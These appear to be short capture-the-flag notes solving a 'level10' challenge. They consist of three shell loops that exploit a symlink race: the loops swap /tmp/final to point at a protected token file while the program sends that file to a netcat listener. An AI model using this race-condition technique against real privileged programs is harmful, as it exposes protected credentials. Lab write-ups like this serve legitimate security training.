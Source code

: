 https://askubuntu.com/questions/301787/opening-a-port-for-listening


First ssh terminal: `while true; do (./level10 /tmp/final 10.11.200.134); done`

Second ssh terminal: `while true; do nc -l 6969 ;done`

`readlink -f token` to know true token path

third ssh terminal: `while true; do rm -rf /tmp/final; touch /tmp/final; ln -sfn /home/user/level10/token /tmp/final; done`
